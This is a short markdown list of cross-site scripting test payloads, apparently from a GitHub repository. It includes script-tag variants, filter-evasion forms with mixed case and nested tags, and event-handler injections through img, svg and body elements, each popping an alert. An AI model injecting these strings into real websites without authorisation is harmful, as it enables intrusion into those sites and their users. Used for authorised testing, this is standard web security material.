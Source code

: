 # Payloads
## XXS Popup:
-<script>alert("XSS");</script>
-<script>alert(‘XSS’);</script>
-<script>alert(‘XSS’)</script>
-<<script>alert("XSS");//<</script>
-<sCripT>alert("XSS")</scRipt>
-<scr<script>ipt>alert('XSS')</script>
-<sCripT>alert('XSS')</scRipt>
-<img src="/" onerror="alert('XSS')"/>
-<img src=x onMouseOver=alert('XSS')>
-<svg/onload=eval("ale"+"rt")(`XSS${alert`XSS`}`)>
-<img src='nevermind' onerror="alert('XSS');" />
-<< script>alert("XSS");//<</ script>
-<svg/onload=alert('XSS')>
-div.innerHTML = '<script deferred>alert("XSS");</script>';
-<img src="aaa" onerror=alert('xxs')>
-<body onload="alert('XSS')">
